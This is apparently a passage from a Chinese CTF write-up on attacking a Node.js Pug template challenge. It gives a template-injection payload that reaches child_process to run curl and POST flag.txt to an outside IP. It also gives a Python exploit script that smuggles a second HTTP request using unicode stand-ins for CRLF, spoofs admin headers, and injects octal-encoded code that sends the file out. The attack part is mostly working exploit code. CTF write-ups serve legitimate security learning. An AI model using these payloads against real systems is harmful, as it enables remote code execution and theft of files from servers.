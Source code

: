 ```js
#{shellcode}
- shellcode
```

写一个外带flag的payload

```js
-[]["constructor"]["constructor"]("console.log(this.process.mainModule.require('child_process').exec('curl 172.19.0.1:8888 -X POST -d @flag.txt'))")()
```

我根据这位大佬的py2版[exp.py](https://ctftime.org/writeup/18293)写了一个py3版本的，并且改的简洁了一些（有了一些通用性，但是由于还是部分unicode编码，总体上不如全编码的稳

```python
import requests
from requests.utils import quote

url = ''
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
SPACE = u'\u0120'
CRLF = u'\u010d\u010a'
SLASH = u'\u012f'


# 仅对字母进行编码
def str2Oct(str):
    r = ''
    for i in str:
        if i in charset:
            r += '\\' + oct(ord(i))[1:]
        else:
            r += i
    return r.replace('o', '')


_pug = '''-[]["constructor]["constructor]("console.log(this.process.mainModule.require('child_process').exec('curl http://ip:port/ -d @/flag.txt'))")()'''
pug = str2Oct(_pug).replace('"', '%22').replace("'", "%27")
# print(pug)
# print(quote(pug))

payload = f'''amiz HTTP/1.1

GET /flag HTTP/1.1
x-forwarded-for: 127.0.0.1
adminauth: secretpassword
pug: {pug}
test: '''.replace(' ', f'{SPACE}').replace('/', f'{SLASH}').replace('\n', f'{CRLF}')

print(payload)

r = requests.session()
result = r.get('url' + quote(payload))
print(result.content)

```
